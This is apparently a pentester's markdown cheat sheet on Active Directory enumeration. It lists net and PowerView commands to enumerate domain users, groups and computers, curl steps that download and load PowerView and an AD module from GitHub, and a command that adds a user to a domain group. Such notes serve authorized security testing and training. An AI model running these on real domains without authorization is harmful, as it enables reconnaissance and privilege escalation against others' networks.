 # Active Directory
## Enumeration
-> Enumerate all users in the entire domain
```powershell
net user /domain
```

-> Get information from a specific user
```powershell
net user <user> /domain
```

-> Enumerate all groups in the entire domain
```powershell
net group /domain
```

-> Get members of local group
```powershell
Get-NetLocalGroup -ComputerName <domain> -Recurse (PowerView)
```

-> Find out domain controller hostname
```powershell
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

-> Configure ActiveDirectory Module - RSAT
```powershell
curl https://raw.githubusercontent.com/samratashok/ADModule/master/ActiveDirectory/ActiveDirectory.psd1 -o ActiveDirectory.psd1  
curl https://github.com/samratashok/ADModule/blob/master/Microsoft.ActiveDirectory.Management.dll?raw=true -o Microsoft.ActiveDirectory.Management.dll  
Import-Module .\Microsoft.ActiveDirectory.Management.dll  
Import-Module .\ActiveDirectory.psd1  
```

-> Configure PowerView Module
```powershell
curl https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1 -o PowerView.ps1
. .\PowerView.ps1
```
-> Last logon
```powershell
Get-LastLoggedOn -ComputerName <domain>
```

-> List Computers
```powershell
Get-NetComputer (PowerView)
```

-> Add domain user to a domain group
```powershell
Add-DomainGroupMember -Identity 'SQLManagers' -Members 'examed'
Get-NetGroupMember -GroupName 'SQLManagers'
```
